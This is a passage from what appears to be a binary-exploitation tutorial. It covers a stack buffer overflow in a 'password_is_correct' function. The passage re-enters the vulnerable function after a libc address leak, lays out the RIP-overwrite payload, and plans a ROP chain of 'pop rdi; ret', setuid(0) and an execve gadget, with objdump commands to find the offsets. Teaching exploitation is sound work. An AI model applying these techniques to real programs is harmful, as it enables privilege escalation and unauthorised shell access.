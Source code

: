 There is only one problem: We only get to input once. Once we leak the
address, the program prints some stuff and quits. We need to change that!

### Return to Vuln

To solve this issue, we will execute the vulnerable function,
`password_is_correct`, more than once.

We just need to overwrite the return address of the `password_is_correct`
with its own initial address.

#### Get Vuln Address

With `objdump -M intel -D rip | grep "<password_is_correct>:"`, get the
address of `password_is_correct`:

```
00000000004006c9 <password_is_correct>:
```

#### Overwrite RIP

Just overwrite RIP like we did many times before. Our payload should look
something like this:

```
fill buffer (0x80 bytes) + overwrite RBP (0x8 bytes) + overwrite RIP (0x8 bytes)
```

### Make ROP Chain With Leaked Info

The idea is to make the following rop chain:

```
pop rdi; ret + 0 + setuid + execve gadget
```

We can get the `pop rdi; ret` gadget from the executable itself, just like did
in the [previous](#no-pie-no-libc-no-problem) section.

What is left is the `setuid` and `execve` gadget addresses.

### Getting The Offsets

In the end, we wll have a script that reads the leaked address and calculate the
relevant addresses based on it.

For that, we need to know the offset of the code we want to use.

We need to find the offset of the `execve` gadget we used in the
[previous](../second/second.md/#one-gadget-to-rule-them-all) module and the
`setuid`.

With the same version of `libc` that our victim program is using, we will use
`objdump -M intel libc.so | grep -B 5 execve | grep -C 3 </bin/sh offset in this version of libc>`

This should give you an output like:

```
   b8c07:	48 89 ca             	mov    rdx,rcx
   b8c0a:	e8 81 b2 fc ff       	call   83e90 <memcpy@GLIBC_2.2.5>
   b8c0f:	48 8d 3d 03 90 0a 00 	lea    rdi,[rip+0xa9003]        # 161c19 <_libc_intl_domainname@@GLIBC_2.2.5+0x159>
   b8c16:	4c 89 e2             	mov    rdx,r12
   b8c19:	4c 89 ee             	mov    rsi,r13
   b8c1c:	e8 1f fa ff ff       	call   b8640 <execve@@GLIBC_2.2.5>
--
   d6b9a:	e8 81 53 00 00       	call   dbf20 <__close@@GLIBC_2.2.5>
   d6b9f:	48 8b 05 12 23 2c 00 	mov    rax,QWORD PTR [rip+0x2c2312]        # 398eb8 <__environ@@GLIBC_2.2.5-0x3080>
   d6ba6:	48 8d 74 24 60       	lea    rsi,[rsp+0x60]
```